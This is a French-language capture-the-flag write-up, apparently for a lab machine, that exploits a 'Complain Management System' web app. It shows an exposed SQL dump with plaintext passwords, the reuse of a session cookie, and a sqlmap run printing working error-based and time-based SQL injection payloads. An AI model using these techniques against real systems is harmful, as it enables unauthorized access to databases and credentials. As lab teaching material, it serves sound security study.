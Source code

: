 A l'URL */complain/* on trouve une appli de relation client qui s'appelle *Complain Management System*.  

Il existe [deux vulnérabilités](https://www.exploit-db.com/exploits/42968/) pour ce logiciel. On pourrait qualifier la première de backdoor vu qu'il s'agit d'un compte hardcodé. Malheureusement le mot de passe a visiblement été édité pour le challenge.  

La seconde est une faille d'injection SQL pour laquelle il faut être authentifié.  

Avec un buster on trouve différents dossiers, en particulier le dossier *database* dispose d'un listing avec un fichier *complain\_db.sql* qui s'en trop de surprises est un dump MySQL de la base de données.  

On y trouve plusieurs tables avec des utilisateurs : *tbl\_customer*, *tbl\_supplier* et *tbl\_engineer*. Cette dernière semble plus intéressante car les utilisateurs semblent avoir plus de privilèges.  

Les mots de passe sont stockés en clair dans la base :  

```plain
INSERT INTO `tbl_engineer` (`eid`, `ename`, `epass`, `address`, `email`, `e_mobile`, `date_time`) VALUES
(6, 'Amol sarode', 'amol', '12/c, camp, pune', 'amol.sarode@gmail.co', '2541258452', '2011-02-02 23:36:51'),
(5, 'Ramiz Khan', 'ramiz', '10, merta tower', 'ramiz@gmail.com', '9854251425', '2011-02-02 23:36:09'),
(4, 'Mubarak Bahesti', 'mubarak', '290, asif nagar, pune', 'mubarak@gmail.com', '9856323568', '2011-02-02 23:15:20');
```

Civet de lapin
--------------

On peut dès lors se connecter avec l'un des comptes, récupérer le cookie (via extension dédiée ou via les outils de développement du navigateur) puis utiliser ce cookie dans sqlmap pour exploiter la vulnérabilité mentionnée plus tôt :  

```plain
devloop@kali:~$ sqlmap -u 'http://10.10.10.71:8080/complain/view.php?mod=admin&view=repod&id=plans' -p id --cookie "PHPSESSID=nj9rojjcqt74jeidet86csire6" --dbms mysql
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 1363 HTTP(s) requests:
---
Parameter: id (GET)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: mod=admin&view=repod&id=plans WHERE 8103=8103 AND (SELECT 9626 FROM(SELECT COUNT(*),CONCAT(0x716a627071,(SELECT (ELT(9626=9626,1))),0x71766a6271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- qhHP

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: mod=admin&view=repod&id=plans WHERE 7037=7037 AND SLEEP(5)-- JjKS
---
```

